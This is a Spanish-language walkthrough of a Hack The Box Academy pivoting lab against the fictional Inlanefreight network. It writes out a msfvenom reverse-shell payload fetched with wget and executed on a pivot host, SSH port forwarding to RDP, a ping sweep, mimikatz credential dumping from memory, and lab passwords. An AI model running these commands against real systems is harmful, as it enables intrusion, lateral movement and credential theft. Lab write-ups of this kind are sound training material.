





Laboratorio Pivoting - Evaluación de Habilidades

Enunciado
Un miembro del equipo inició una prueba de penetración en el entorno de Inlanefreight, pero fue transferido a otro proyecto en el último momento. Afortunadamente, nos dejaron una web shellprueba para que podamos volver a conectarnos a la red y retomar el trabajo donde ellos lo dejaron. Necesitamos aprovechar el shell web para seguir enumerando los hosts, identificando servicios comunes y usando esos servicios/protocolos para integrarnos en las redes internas de Inlanefreight. Nuestros objetivos son:
- Comience desde afuera y acceda al primer sistema a través del shell web que quedó en su lugar.
- Utilice el acceso al shell web para enumerar y pivotar a un host interno.
- Continúe enumerando y pivotando hasta llegar al
Inlanefreight Domain Controllery capture el asociadoflag. - Utilice cualquier
data,credentials,scripts, u otra información dentro del entorno para habilitar sus intentos de pivoteo. - Coge
any/alllas banderas que puedas encontrar.
Información de conexión
Foothold:
IP:10.129.229.129 (ACADEMIA-PIVOT-WEB01)
Encontrará el shell web que se muestra a continuación cuando navegue a support.inlanefreight.local o la IP de destino indicada anteriormente.
Una vez en el servidor web, enumere el host para obtener las credenciales que se pueden usar para iniciar un pivote o túnel a otro host de la red. ¿En el directorio de qué usuario se encuentran las credenciales? Envíe el nombre del usuario como respuesta.
Iniciamos la enumeración de servicios para identificar los puertos y protocolos activos en la máquina objetivo.
nmap -sS -p- --min-rate 2000 -n -Pn <IP>
 Vemos que tenemos los puertos 22 y 80 abiertos, accedemos por el puerto 80 a la webshell que nos habían comentado en el enunciado del ejercicio.
Vemos que tenemos los puertos 22 y 80 abiertos, accedemos por el puerto 80 a la webshell que nos habían comentado en el enunciado del ejercicio.
En caso de querer entrar con el nombre support.inlanefreight.local debemos asociar este nombre con la IP que nos den en HTB, para que resuelva correctamente.
nano /etc/hosts
<IP> support.inlanefreight.local
Cuando acedemos a la web vemos que efectivamente tenemos capacidad de ejecutar comandos en el servidor.

 Vemos por acá los ususarios
Vemos por acá los ususarios root, webadmin, administrator.
Envíe las credenciales que se encuentran en el directorio de inicio del usuario. (Formato: usuario: contraseña)
Revisando en los directorios que tenemos acceso vemos lo siguiente:

Nos dan por acá un usuario y una contraseña mlefay:Plain Human work!
Enumere la red interna y descubra otro host activo. Envíe la dirección IP de ese host como respuesta.
Seguimos buscando y vemos una clave id_rsa, nos la copiamos a local.

Luego que nos copiamos id_rsa le asignamos los permisos correctos
chmod 600 id_rsa
Y la utilizamos para entrar al servidor por ssh como usuario webadmin, directorio del usuario donde se encontraba la llave.
ssh webadmin@<IP> -i id_rsa

Seguimos mirando en el servidor y vemos esto:
ifconfig
 Nosotros tenemos conexión al servidor por la interfaz
Nosotros tenemos conexión al servidor por la interfaz ens160 dado que estamos en la misma subred, con lo cual el objetivo de este módulo es poder pivotar a la red interna en este caso 172.16.0.0 por la interfaz en192.
Hacemos una carga útil para el pivote desde nuestra máquina
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP_atacante> -f elf -o backupjob LPORT=8080
Vamos a tener un archivo backupjob el cual vamos a trasferir a nuestro pivote.
En nuestra máquina atacante, en el directorio donde se encuentra el archivo backupjob:
python3 -m http.server 8088
En el pivote:
wget http://<IP_Atacante>:8088/backupjob
Luego le damos permisos
chmod +x backupjob
Configuración e inicio del receptor en metasploit
msf6 > use exploit/multi/handler
> set lhost 0.0.0.0
> set lport 8080
> set payload linux/x64/meterpreter/reverse_tcp
> run
Ejecución de la carga útil en el Pivote
chmod +x backupjob
./backupjob

- Enumeramos la subred interna:
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/24

De los cuales nos vamos a quedar con 172.16.5.35
Pivotamos sobre el host que nos dan para llegar al recién descubierto en la subred interna digamos, donde vamos a ejecutar un redireccionamiento desde nuestro host por el puerto 9050 hacia el destino por el puerto 3389 para ver si tenemos RDP.
ssh -L 9050:<IP_interna>:3389 webadmin@<IP_pivote> -i id_rsa

Y nos conectamos por RDP mediante el redireccionamiento que hicimos anteriormente, por el puerto 9050 y con las credenciales que obtuvimos previamente también.
xfreerdp3 /v:127.0.0.1:9050 /u:mlefay /p:'Plain Human work!'
Nos movemos hacia la ruta que nos ponen en HTB:

En pruebas de penetración anteriores contra Inlanefreight, hemos observado que tienen la mala costumbre de utilizar cuentas con servicios de forma que expone las credenciales de los usuarios y la red en su conjunto. ¿Qué usuario es vulnerable?
Llegado a este punto debemos apoyarnos de la herramienta mimikatz para ver si hay algún usuario en el sistema que podamos obtener sus credenciales.
Copiamos la herramienta a la máquina objetivo 172.16.5.35
Dejo el enlace por acá:
Abrimos la herramienta desde la Powershell
 Ejecutamos los comandos siguientes para obtener los passwords guardados en memoria y lo exportamos al archivo hashes.txt.
Ejecutamos los comandos siguientes para obtener los passwords guardados en memoria y lo exportamos al archivo hashes.txt.
privilege::debug
log hashes.txt
sekurlsa::logonpasswords

Y tenemos credenciales de otro usuario del servidor vfrank:Imply wet Unmasked!
Para el siguiente salto, enumere las redes y utilice una solución de acceso remoto común para la migración. Envíe el archivo C:\Flag.txt ubicado en la estación de trabajo.
Para esto debemos ver que redes tenemos accedo desde está máquina.
ipconfig

Abrimos la powershell y hacemos ping:
$ping = New-Object System.Net.Networkinformation.Ping ; 1..254 | % { $ping.send("172.16.6.$_", 1) | where status -ne 'TimedOut' | select Address | fl * }
 Y vemos las ips
Y vemos las ips 172.16.6.25 y 172.16.6.45
 Ejecutamos el acceso remoto a la ip 172.16.6.25 con las credenciales de
Ejecutamos el acceso remoto a la ip 172.16.6.25 con las credenciales de vfrank

Envíe el contenido de C:\Flag.txt ubicado en el controlador de dominio.

Si te sirvió de algo este tutorial ya para mi es más que suficiente, si me puedes decir en que podemos mejorar te lo voy a agradecer un montón.
Escríbeme por cualquiera de las vías